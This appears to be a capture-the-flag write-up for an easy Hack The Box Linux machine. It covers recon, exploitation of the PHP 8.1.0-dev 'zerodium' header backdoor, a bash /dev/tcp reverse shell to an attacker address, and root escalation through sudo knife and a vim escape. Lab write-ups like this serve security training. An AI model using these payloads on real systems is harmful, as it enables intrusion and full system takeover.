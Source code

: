 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.242
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.242
```

---

## 🖼️ Web Enumeration
```bash
# Server response shows:
# X-Powered-By: PHP/8.1.0-dev

# Directory fuzzing:
feroxbuster -u http://10.10.10.242 -o scans/feroxbuster-root-php
```

---

## ⚔️ [PHP Backdoor RCE (CVE-2021-XXXXX)](HTTP)
```http
# Send request with User-Agentt: zerodium
# PHP code in header gets executed.

GET / HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system('id');
```

---

## 🚀 Reverse Shell
```bash
# On attacker machine:
nc -lnvp 443

# In Burp / curl:
User-Agentt: zerodium system('bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"');
```

### Shell Upgrade
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🔎 Enumeration (as james)
```bash
whoami
hostname
sudo -l
```

---

## 🔒 Privilege Escalation via `knife`
```bash
# Check sudo rights:
sudo -l
# Output: (root) NOPASSWD: /usr/bin/knife
```

### Method 1: GTFObins - `knife exec`
```bash
sudo knife exec -E "exec '/bin/bash'"
```

### Method 2: Vim Escape
```bash
sudo knife data bag create test output -e vim
# In vim: :!/bin/bash
```

---

## ✅ Flags
```bash
cat /home/james/user.txt
cat /root/root.txt
```

---

## 📋 Resources
- [PHP Backdoor Info](https://news-web.php.net/php.internals/113838)
- [GTFObins - knife](https://gtfobins.github.io/gtfobins/knife/)
- [PHP 8.1.0-dev CVE Threads](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-insert-secret-backdoor-to-php-source-code/)

